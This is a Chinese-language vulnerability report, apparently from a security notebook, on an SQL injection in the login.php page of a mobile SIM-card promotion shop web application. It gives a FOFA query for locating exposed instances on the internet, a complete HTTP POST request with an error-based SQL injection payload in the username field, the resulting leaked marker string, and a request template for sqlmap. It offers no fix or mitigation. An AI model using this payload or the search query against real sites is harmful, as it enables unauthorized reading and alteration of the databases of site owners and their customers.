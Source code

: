 # 手机卡号推广商城ssk存在SQL注入漏洞

# 一、漏洞简介
 手机卡号推广商城是一个在线平台，提供手机卡号销售、号码推广、套餐介绍、安全保障和售后服务等功能，满足用户对手机卡号的需求，为用户提供便利的服务体验。 手机卡号推广商城 login.php接口处存在 SQL 注入漏洞，恶意攻击者可能会利用此漏洞修改数据库中的数据，例如添加、删除或修改记录，导致数据损坏或丢失。

# 二、影响版本
+ 手机卡号推广商城

# 三、资产测绘
+ fofa`body="zgdx.php"`
+ 特征

![1715176303991-c852989c-d754-4c4a-8f26-6bde61362c67.png](./img/TZ56b5Nh8Wr31Cat/1715176303991-c852989c-d754-4c4a-8f26-6bde61362c67-390785.png)

 手机卡号推广商城是一个在线平台，提供手机卡号销售、号码推广、套餐介绍、安全保障和售后服务等功能，满足用户对手机卡号的需求，为用户提供便利的服务体验。  

# 四、漏洞复现
```http
POST /ssk/login.php HTTP/1.1
Host: 
Content-Length: 199
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

username=' OR (SELECT 5126 FROM(SELECT COUNT(*),CONCAT(0x716a6a6a71,(SELECT (ELT(5126=5126,1))),0x71786b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- Tyft&password=123123
```

![1715178848654-441442f8-e1fe-4d1a-bf55-eb7b8fd2aac6.png](./img/TZ56b5Nh8Wr31Cat/1715178848654-441442f8-e1fe-4d1a-bf55-eb7b8fd2aac6-592450.png)

```http
qjjjq1qxkzq1
```

sqlmap

```http
POST /ssk/login.php HTTP/1.1
Host: 
Content-Length: 199
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

username=&password=123123
```

![1715178886524-70e83ac2-67e8-47a8-a53e-99049d34e5c4.png](./img/TZ56b5Nh8Wr31Cat/1715178886524-70e83ac2-67e8-47a8-a53e-99049d34e5c4-472915.png)



> 更新: 2024-05-09 11:09:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xwfc57fpx7o7dqr8>